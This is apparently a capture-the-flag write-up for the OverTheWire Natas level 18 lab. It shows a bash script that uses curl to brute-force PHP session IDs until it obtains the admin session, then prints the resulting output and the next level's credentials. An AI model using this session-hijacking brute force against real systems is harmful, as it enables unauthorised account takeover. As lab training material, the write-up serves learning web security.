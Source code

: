 Php's `session_start()` api states this:

> session_start() creates a session or resumes the current one based on a session identifier passed via a GET or POST request, or passed via a cookie.

So if we send just the right cookie that makes it get the admin session and print the creds.

Since we don't know what the right cookie might be, we'll brute force it.

To the batmobile!

```bash
#!/bin/bash

num=1
pwned=0

while [[ $pwned = 0 ]]; do
  if [[ $num = 640 ]]; then echo "You messed somthing up..."; pwned=1; fi

  RESPONSE=$(curl 'http://natas18.natas.labs.overthewire.org/index.php' \
    -H 'Authorization: Basic bmF0YXMxODp4dktJcURqeTRPUHY3d0NSZ0RsbWowcEZzQ3NEamhkUA==' \
    -H 'Referer: http://natas18.natas.labs.overthewire.org/' \
    -H "Cookie: PHPSESSID=$num" \
    --silent \
    --data 'username=admin&password=asdfasdf')

  honeypot='You are logged in as a regular user'
  if [[ "$RESPONSE" =~ $honeypot ]]; then
    echo "Attempt with $num failed"
    # echo $RESPONSE
  else
    echo "Succeeded with $num:"
    echo $RESPONSE
    pwned=1
  fi

  num=$((num+1))
done
```

And that gets us...

```
...
Attempt with 115 failed
Attempt with 116 failed
Attempt with 117 failed
Attempt with 118 failed
Succeeded with 119:
 You are an admin. The credentials for the next level are:<br><pre>Username: natas19 Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs</pre><div id="viewsource"><a hre </html>-source.html">View sourcecode</a></div>
```
